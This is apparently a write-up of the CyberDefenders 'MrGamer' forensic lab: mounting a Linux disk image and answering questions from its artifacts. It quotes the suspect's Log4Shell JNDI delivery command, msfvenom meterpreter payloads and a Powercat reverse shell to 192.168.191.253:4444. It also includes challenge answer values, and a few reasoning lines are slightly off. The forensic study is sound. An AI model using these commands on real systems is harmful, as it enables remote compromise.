

# MrGamer Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/mrgamer/](https://cyberdefenders.org/blueteam-ctf-challenges/mrgamer/)

Suggested tools: CyberChef, DCode, DB Browser for SQLite, Unfurl, Arsenal Image Mounter, Autopsy

Tactics: Execution, Command and Control

# Scenario

This Linux image belongs to a user who enjoys gaming and chatting with friends. Suspicious activity was observed in the system’s artifacts. As a SOC analyst, analyze the image to uncover potential anomalies and reconstruct the user’s actions.

Resources:

1. [Linux Artifacts - Targeted Locations Quick Reference Guide](https://www.magnetforensics.com/resources/targeted-locations-quick-reference-guide-for-linux-artifacts/)

# Questions

Q1- What is the name of the utility or library for which the user was exploring exploits?

Answer: `log4j`

Reason: Shell history recovered from rafael's home directory, `.bash_history`, shows a deliberate exploit development workflow centered on the Log4j logging library. The user cloned both `apache-log4j-rce-poc` and `mbechler/marshalsec`, compiled a custom `Log4jRCE.java` payload, and repeatedly served it via `python3 -m http.server`, while using marshalsec's `LDAPRefServer` module to stand up a malicious Lightweight Directory Access Protocol (LDAP) reference server: `marshalsec.jndi.LDAPRefServer "http://192.168.191.253:8000/#Log4jRCE"`. This is the classic Java Naming and Directory Interface (JNDI) injection delivery mechanism for the Log4Shell vulnerability, `CVE-2021-44228`. This activity was paired with Metasploit generated Windows meterpreter payloads, `msfvenom -p windows/x64/meterpreter/reverse_tcp`, and corresponding `multi/handler` listeners. Together, this indicates the history reflects the attacker's own tooling and exploitation workflow rather than a victim's activity.

## Forensic Disk Preparation and Mounting

- The Guymager acquisition of the Lenovo laptop consisted of eight Expert Witness Format (EWF) segment files, `LenovoFinal.E01` through `LenovoFinal.E08`.
- The segmented image was mounted using `ewfmount` to reconstruct the segments into a single virtual raw device, `ewf1`, without altering the original evidence.
- Initial inspection of the resulting device with `file` and `fdisk -l` revealed a GUID Partition Table (GPT) partitioned disk of `111.79 GiB`, with a protective Master Boot Record (MBR) of type `0xee`.
- The disk contained a `512 MB` EFI System Partition (ESP) and a `62.5 GB` Linux filesystem partition.
- Approximately `49 GiB` of space at the end of the disk was confirmed by `mmls` to be genuinely unallocated at the GPT level.
- The virtual device was attached via `losetup -P`, which exposed both partitions as native loop sub-devices.
- A redundant device-mapper mapping, created by an earlier `kpartx` invocation, was identified and removed using `kpartx -d` to avoid ambiguity in device references.
- The ESP mounted cleanly read-only and was found to contain only standard GRUB and shim bootloader files for Ubuntu, ruling it out as a source of user activity artifacts.
- The Linux filesystem partition initially failed to mount read-only due to an unreplayed ext4 journal, since the filesystem was not cleanly unmounted prior to acquisition.
- The partition was successfully mounted using the `norecovery` option, equivalent to `noload`, which bypasses journal replay entirely and preserves the filesystem in its exact as-acquired state without any writes to the evidence.

```bash
sudo ewfmount /home/kali/ctf_stuff/defsec/temp/Lenovo-Final/LenovoFinal.E01 /mnt/gamer
file /mnt/gamer/ewf1
fdisk -l /mnt/gamer/ewf1
mmls /mnt/gamer/ewf1
sudo losetup -P -f /mnt/gamer/ewf1
sudo kpartx -d /dev/loop4
mount -o ro /dev/loop4p1 /mnt/gamer_part1
mount -o ro,noload /dev/loop4p2 /mnt/gamer_part2
```

**Disk Mounting Logic**

1. `.E01` (+ segments) — not "an image using a tool" generically, specifically an EWF-formatted forensic image: a byte-for-byte copy of the original physical disk, created by `Guymager`, split across 8 segment files for size/format reasons.
2. `ewfmount` → `/mnt/gamer/ewf1` — this doesn't mount a filesystem yet. It uses FUSE to expose the reassembled EWF segments as a single virtual raw block device file (`ewf1`), i.e. "here are the raw disk bytes as one continuous file," read-only, no filesystem interpretation applied yet.
3. `losetup -P` → `/dev/loop4`, `/dev/loop4p1`, `/dev/loop4p2` — this takes that raw file and attaches it to the kernel's loop device subsystem, making the file behave like a real block device (`/dev/loop4`) the kernel can treat like a disk. The `P` flag additionally makes the kernel parse the partition table inside that raw data and expose each partition as its own sub-device node (`loop4p1`, `loop4p2`) — this is the "discover partitions" step you mentioned, folded into the same command.
4. `mount -o ro ... /mnt/gamer_part1` / `/mnt/gamer_part2` — only at this final step does the kernel interpret the filesystem (`FAT32` on `p1`, `ext4` on `p2`) living inside each partition device and expose its actual directory/file structure at a mountpoint you can `ls`/`cd` into.

The chain is: forensic image format → raw block device → partitioned sub-devices → filesystem-interpreted directory tree, each layer peeling back one level of abstraction, each done read-only to preserve the original evidence untouched.

Q2- What is the version ID number of the operating system on the machine?

Answer: `21.10`

Reason: Examination of `/etc/lsb-release` on the mounted Linux filesystem partition confirmed the operating system as Ubuntu, with `DISTRIB_RELEASE=21.10` (codename "`impish`"), establishing the OS version installed on the imaged machine at the time of acquisition.

Q3- What is the hostname of the computer?

Answer: `rshell-lenovo`

Reason: The hostname of the imaged machine was identified as `rshell-lenovo`, consistent with the `/etc/hostname` file on the mounted Linux filesystem.

Q4- What is one anime that the user likes?

Answer: Attack on Titan

Reason: Analysis of the Thunderbird mail client's global message database, `global-messages-db.sqlite`, located under rafael's `.thunderbird` profile directory, was performed using `DB Browser for SQLite`. Querying the `conversations` table revealed message content originating from an "Attack on Titan Wiki" notification or subscription, message id `38`, referencing a tweeted Attack on Titan illustration. This indicates the user has an interest in the anime and manga series Attack on Titan.

```bash
sqlitebrowser /mnt/gamer_part2/home/rafael/.thunderbird/vrvcx2qf.default-release/global-messages-db.sqlite
-- Table: conversations
-- Row 38: "Attack on Titan Wiki Tweeted: New Attack on Titan illustration"
```



Q5- What is the UUID for the attacker's Minecraft account?

Answer: `8b0dec19-b463-477e-9548-eef20c861492`

Reason: Examination of the Minecraft launcher's user cache file (`usercache.json`) within `rafael`'s `.minecraft` directory revealed a cached account entry for the username `n30forever`, with an associated UUID of `8b0dec19-b463-477e-9548-eef20c861492` and a cache expiration timestamp of `2022-03-05 22:29:17 -0500`, identifying the attacker's Minecraft account.

```bash
$ cat /mnt/gamer_part2/home/rafael/.minecraft/usercache.json | jq
[
  {
    "name": "n30forever",
    "uuid": "8b0dec19-b463-477e-9548-eef20c861492",
    "expiresOn": "2022-03-05 22:29:17 -0500"
  }
]
```

Q6- What VPN client did the user install and use on the machine?

Answer: ZeroTier

Reason: Verification of the `dpkg` package status database confirmed installation of `zerotier-one`, a network virtualization service enabling participation in ZeroTier virtual networks. This is corroborated by shell history showing the user retrieving and executing the ZeroTier installation script, `curl -s https://install.zerotier.com | sudo bash`, establishing ZeroTier as the network virtualization client installed and used on the machine.

```bash
$ grep -i ZeroTier /mnt/gamer_part2/var/lib/dpkg/status 
Package: zerotier-one
Maintainer: Adam Ierymenko <adam.ierymenko@zerotier.com>
 /etc/init.d/zerotier-one 6e24f1b69c7bd4095f02a36c151b1b1f
 /etc/init/zerotier-one.conf e535d74a21f1fb225c4b79049b1a579a
Description: ZeroTier network virtualization service
 ZeroTier One lets you join ZeroTier virtual networks and
 https://www.zerotier.com/ for instructions and
Homepage: https://www.zerotier.com/
```

Q7- What was the user's first password for the guest Wi-Fi?

Answer: `093483`

Reason: Recovery of the `messagesText_content` table within the Thunderbird global message database identified message ID `91`, an automated visitor account receipt sent from `noreply@champlain.edu` to `rafaelshell24@gmail.com`. The email confirms registration for the guest wireless network `ChamplainGuest`, issuing username `rafaelshell24@gmail.com` and password `093483`, with the account set to expire on `Friday, January 28, 2022`. This artifact establishes that a guest network account was provisioned under this email address and remained valid through the stated expiration, supporting timeline correlation with other network access or authentication evidence.

Q8- The user watched a video that premiered on Dec 11th, 2021. How many views did it have when they watched it on February 9th?

Answer: 265342

Reason: The screenshot shows a YouTube video titled "CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE!" by John Hammond, displaying 265,342 views and "Premiered Dec 11, 2021", timestamped Feb 9 16:42 in the system clock. This matches your answer of 265342 exactly, and also corroborates the log4j research seen in bash history where the user was watching a tutorial video on the exact CVE they were exploiting.


Q9- What is the new channel name for the YouTuber whose cookbook is shown on the device?

Answer: Babish Culinary Universe

Reason: Examination of large thumbnail cache images in `/home/rafael/.cache/thumbnails/large/` revealed a photograph (`cbaa054b2d352870198398373043c83b.png`) depicting the cookbook "Binging with Babish" on a shelf, identifying the associated YouTuber as Andrew Rea, whose channel "Binging with Babish" was subsequently renamed to Babish Culinary Universe.

Q10- What is the module with the highest installed version for the chat application with the mascot Wumpus?

Answer: `discord_voice`

Reason: Examination of Discord's module management data (`installed.json`, located at `/home/rafael/.config/discord/0.0.16/modules/installed.json`) revealed the installed versions of each Electron-based module for the Discord client, identifying `discord_voice` as the module with the highest installed version (`5`), corroborated by the corresponding module installation log (`modules.log`) documenting its download and installation.

Q11- According to Windows, what was the temperature in Fahrenheit on February 11th, 2022, at 6:30 PM?

Answer: 45

Reason: Analysis of a Metasploit screenshare-captured screenshot (`YXvySdGd.jpeg`, file timestamp 2022-02-11 18:30:21 -0500, located in `/home/rafael/marshalsec/poc/`) of the compromised Windows target machine revealed the Windows taskbar weather widget displaying a temperature of `45°F` ("Mostly cloudy") alongside a system clock reading `6:30 PM`, `2/11/2022`, directly answering the question and further corroborating active remote screen monitoring of the victim host during the intrusion.

Q12- What is the upload date of the second YouTube video on the channel from which the user downloaded a YouTube video?

Answer: 2009-10-25

Reason: The Downloads directory of user rafael contained an audio file, `Rick Astley - Never Gonna Give You Up (Official Music Video).wav`, identifying the source YouTube channel as Rick Astley's official VEVO channel. OSINT verification of the channel's upload history identified the second video ever published as "Whenever You Need Somebody (Official Video)," with a confirmed upload date of `2009-10-25`, one day after the channel's inaugural upload of "Never Gonna Give You Up."

Q13- What is the SHA-1 hash of Minecraft's "latest" release according to the system?

Answer: `3c6e119c0ff307accf31b596f9cd47ffa2ec6305`

Reason: Recovery of the version manifest (`version_manifest_v2.json`, located in `/home/rafael/.minecraft/versions/`) revealed the topmost/most-recently-listed version entry in the manifest's `versions` array as `22w06a` (a snapshot build, corresponding to the `latest.snapshot` pointer), with an associated SHA-1 hash of `3c6e119c0ff307accf31b596f9cd47ffa2ec6305`.

```bash
`/mnt/gamer_part2/home/rafael/.minecraft/versions/version_manifest_v2.json`
`{"id": "22w06a", "type": "snapshot", "sha1": "3c6e119c0ff307accf31b596f9cd47ffa2ec6305"}`
```

Q14- What were the three flags and their values that were passed to `Powercat`?

Answer: `-c 192.168.191.253 -p 4444 -e cmd`

Reason: Examination of shell command history (`.bash_history`, `/home/rafael/.bash_history`) revealed an invocation of the PowerShell-based reverse/bind shell utility Powercat with three flags specifying a reverse connection back to the attacker infrastructure: a target/callback IP address, a listening port, and an execution mode.

Q15- How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?

Answer: 1

Reason: Examination of the two Minecraft save directories under /home/rafael/.minecraft/saves/ (`1_1_8 world` and `New World`) identified `1_1_8 world` as the oldest based on file creation metadata; inspection of its save folder structure revealed only the default overworld region files present, with no DIM-1 (Nether) or DIM1 (End) subdirectories, indicating the player traveled to only `1` dimension, the Overworld, within that world.

Q16- What is the `mojangClientToken` stored in the Keystore?

Answer: `2f76c8b04c004ddd888a05a6cad6be52`

Reason: Recovery of Minecraft launcher credential storage revealed a stored `mojangClientToken` value used to identify the launcher instance to Mojang's authentication servers, extracted from the local keystore/launcher account data.